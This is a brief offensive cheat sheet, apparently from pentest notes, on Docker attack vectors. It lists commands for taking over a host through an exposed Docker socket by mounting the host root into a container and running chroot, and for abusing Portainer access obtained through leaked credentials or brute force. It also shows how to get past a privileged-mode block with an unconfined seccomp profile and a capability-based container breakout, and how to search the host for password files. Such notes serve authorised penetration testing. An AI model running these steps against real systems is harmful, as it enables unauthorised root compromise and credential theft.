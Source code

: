 # Docker-Related Attack Vectors

### Docker Socket

* If you have user privileges in a host machine check these:&#x20;
  * Find `netstat -tunape` docker socket in localhost
  * export it to env `export DOCKER_HOST="tcp://localhost:2222"`
  * Look docker images in host machine and run it with connecting host
    * &#x20;`docker run -it -v /:/host ubuntu:20.04 bash`
    * `cd /host/`
    * `chroot ./ bash`
    * `find / -name password`



### Portainer Web UI access

* If you have portainer access, (via leaked creds or bruteforce)
  * Create privileged docker via portainer web UI&#x20;
  * Later connect there via from web ui of portainer:
    * `mount /dev/sda /mnt`
    * `cd /mnt`
    * `chroot ./ bash`
    * Then find credentials in root mounted&#x20;

### Use Case (Blocked by privileged mode but run in seccomp)

* You are user in victim machine and want to get root and blocked by docker firewall when you run `docker run -d --privileged ubuntu:latest`

Then you can run&#x20;

* `docker run -d --security-opt "seccomp=unconfined" modified-ubuntu`
* With that way we can start a container with seccomp profile set to unconfined.
*   `docker exec -it --privileged {container_id} bash`

    * `Check it with capsh --print`

    Then use [cap\_sys\_module](../container-breakouts/#cap\_sys\_module-capability) breakout technique to breakout the container.&#x20;



